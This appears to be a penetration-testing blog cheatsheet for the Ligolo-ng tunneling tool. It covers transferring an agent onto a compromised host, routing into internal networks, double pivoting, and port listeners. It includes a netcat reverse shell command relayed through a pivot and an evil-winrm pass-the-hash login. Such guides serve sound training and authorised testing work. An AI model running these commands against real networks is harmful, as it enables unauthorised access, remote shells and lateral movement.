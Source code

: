 ```yaml
---
layout: post
title:  Ligolo-ng Cheatsheet
description: Cheatsheet for Ligolo-ng
date:   2024-11-02 05:00:00 +0300
image:  '/images/21.jpg'
tags:   [Cheatsheets, Tools, Pivoting]
---
```

<span style="font-size: smaller;">**Disclaimer**: This cheatsheet is regularly updated to ensure accuracy; however, due to updates and evolving tools, some commands may no longer work or may have alternative methods of running them. Please verify commands as needed and consult official documentation or additional resources if a command does not perform as expected.</span>

# Table of Contents
- [Getting Ligolo-ng](#getting-ligolo-ng)
- [Basic Pivot](#basic-pivot)
- [File Transfer Example with Single Pivot](#file-transfer-example-with-single-pivot)
- [Reverse Shell Example with Single Pivot](#reverse-shell-example-with-single-pivot)
- [Easy Double Pivot to Access a Second Internal Network](#easy-double-pivot-to-access-a-second-internal-network)
- [Fast Pipelines with same Port through Multiple Pivots](#fast-pipelines-with-same-port-through-multiple-pivots)

### Getting Ligolo.ng
Important Note: Make sure you are always using the same version of Proxy and Agent (For example, both Proxy and Agent must be 0.7.2).

#### Download the binaries manually (Recommended)
##### PROXY (Run this on Kali)
- [Linux 64-bit Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bit Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_windows_amd64.zip)

##### AGENT (Run this on Pivot Host)
- [Linux 64-bit Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bit Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_windows_amd64.zip)

For more information about Ligolo-ng, visit its official [GitHub Repository](https://github.com/nicocha30/ligolo-ng).

#### Alternative with Package Installer
```shell
sudo apt install ligolo-ng

# Locate, copy the needed files and run them (Example with agent file)
sudo updatedb -v
locate agent
sudo cp /path/to/ligolo/agent .
sudo chmod +x agent
./agent
```

### Basic Pivot
Move the agent file into the pivot host:
```shell
# On Kali
sudo cp /home/kali/Downloads/ligolo-ng_agent_0.7.2_linux_amd64/agent .
python3 -m http.server 443

# On Target (Linux)
cd /tmp
wget http://<kali_ip>:443/agent

# On Target (Windows using PowerShell)
cd C:\Windows\Temp
powershell -c iwr http://<kali_ip>:443/agent.exe -OutFile agent.exe
```
Set up Ligolo-ng on Kali:
```shell
# Create an interface
sudo ip tuntap add user Vorkharium mode tun ligolo
sudo ip link set ligolo up

# Add new IP range we want to access (Examine Pivot Host with ifconfig, ip a, etc commands)
sudo ip route add 172.16.150.0/24 dev ligolo
ip route list

# Run the proxy file
sudo chmod +x proxy
./proxy -selfcert

# The Ligolo-ng console will now open (We will interact with it soon)
```

On the Pivot target, use the agent file to connect to our running proxy:
```shell
# On Linux
chmod +x agent
./agent --connect <kali_ip>:11601 -ignore-cert

# On Windows PowerShell
./agent.exe --connect <kali_ip>:11601 -ignore-cert

```

Now enter the following on the Ligolo-ng console:
```shell
# Enter "session" to show the available sessions
ligolo-ng » session

# Enter "1" to select the session we created when using the agent (There is only one session to choose in this case)
? Specify a session : 1

# Enter "start" to start the connection
[Agent : hackme@compromisedmachine] » start

# Now we are able to access the network 172.16.150.0/24
```

### File Transfer Example with Single Pivot
In this example:
- We got access into the Host B 172.16.150.20 (We are inside its CLI).
- We previously set up our Pivot Host A, in this case 172.16.150.10.
- Now we want to move a file from Kali (192.168.45.200) to Host B (172.16.150.20) through our Pivot Host A (172.16.150.10).

To achieve that, we will create a new listener in our active Ligolo-ng session:
```shell
# Create new listener - Port 1234 on Kali will be the Port 9001 on the Pivot Host A
# Enter the following on the running active Kali Ligolo-ng session
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:9001

# Start Python server on Kali using Port 1234
python3 -m http.server 1234

# From the Host B CLI, access Python server through Port 9001 at the Pivot Host to download the "test.txt" file
wget http://172.16.150.10:9001/test.txt
```

### Reverse Shell Example with Single Pivot
Following the example above, we will create a new listener, but this time we will use that listener to get a Reverse Shell:
```shell
# Create new listener - Port 1235 on Kali will be the Port 9002 on the Pivot Host A
# Enter the following on the running active Kali Ligolo-ng session
listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:9002

# Start nc listener on Kali Port 1235
nc -lvnp 1235

# Enter the following at Linux CLI on Host B to access the nc listener through Pivot Host A Port 9002
nc 172.16.150.10 9002 -e /bin/sh

# Now we successfully got a shell from the Host B (172.16.50.20) to our Kali
```

### Easy Double Pivot to Access a Second Internal Network
The following situation is given:
- We got access to the first internal network (172.16.150.0/24) through Administrator access at Pivot Host A (172.16.150.10).
- The Host B as access to another internal network (172.16.200.0/24).
- We will set a Second Pivot at Host B (172.16.150.20) to access the second internal network (172.16.200.0/24).

To achieve that, we can do the following:
```shell
# Connect with evil-winrm
evil-winrm -i 172.16.150.10 -u Administrator -H <NT_hash>

# Upload ligolo-ng agent.exe
upload agent.exe

# Set up a new ligolo interface on Kali
sudo ip tuntap add user Vorkharium mode tun ligolo2
sudo ip link set ligolo2 up

# Add the second internal network
sudo ip route add 172.16.200.0/24 dev ligolo2

# On the Ligolo-ng current session, create a new listener connecting to the Port 11601 of the first session
listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601

# Run the agent.exe to create a connection from the Second Pivot Host to the First Pivot Host
./agent.exe --connect 172.16.150.10:11601 -ignore-cert

# On Ligolo-ng console - Show sessions
ligolo-ng » session

# Select the new session created from the Second Pivot Host
? Specify a session : 2 # automotors\Administrator@DC01 (Example of the name of the second pivot host)

# Start new Ligolo-ng session using the new interface "ligolo2" so it won't interfere with the first interface "ligolo"
[Agent : automotors\Administrator@DC01] » start --tun ligolo2

# Now we can access the second internal network 172.16.200.0/24
```
### Fast Pipelines with same Port through Multiple Pivots
```shell
# Note: Our Kali IP in this example is 192.168.45.200

# Add listeners inside Ligolo-Ng console
# On Session 1 - Pivot Host A (172.16.150.1)
listener_add --addr 0.0.0.0:9000 --to 0.0.0.0:9000

# On Session 2 - Pivot Host B (172.16.200.1)
listener_add --addr 0.0.0.0:9000 --to 0.0.0.0:9000

# Now we can access the Port 9000 in our Kali through Port 9000 on Pivot Host B and viceversa
172.16.200.1:9000 = 192.168.45.200:9000 = 127.0.0.1:9000
```
